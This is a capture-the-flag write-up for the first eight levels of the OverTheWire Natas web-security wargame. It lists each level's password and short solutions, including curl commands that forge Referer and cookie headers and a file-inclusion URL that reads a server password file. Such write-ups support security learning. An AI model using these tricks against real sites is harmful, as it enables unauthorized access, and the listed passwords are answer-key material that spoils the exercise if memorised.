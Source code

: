 
Natas
=====

http://overthewire.org/wargames/natas/

Major takeaways:
- 

### natas0: natas0
View source.

### natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto
view-source:http://natas1.natas.labs.overthewire.org/

Right clicking disabled, download the source and have a look.

### natas2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
http://natas2.natas.labs.overthewire.org/files/users.txt

Directory index on /files/

### natas3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

"Not even Google will find it this time."

http://natas3.natas.labs.overthewire.org/robots.txt

### natas4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Setting the referer header.

```
$ curl --basic -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ --referer http://natas5.natas.labs.overthewire.org/
```

### natas5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Using -v means you can see the Set-Cookie header and see the loggedin=0 it's trying to send.

```
$ curl --basic -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie loggedin=1 -v
```

### natas6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

The php source references a secret in /includes/secret.inc. 
When you run it through the form it tells you the password.

### natas7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

PHP file inclusion bug.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
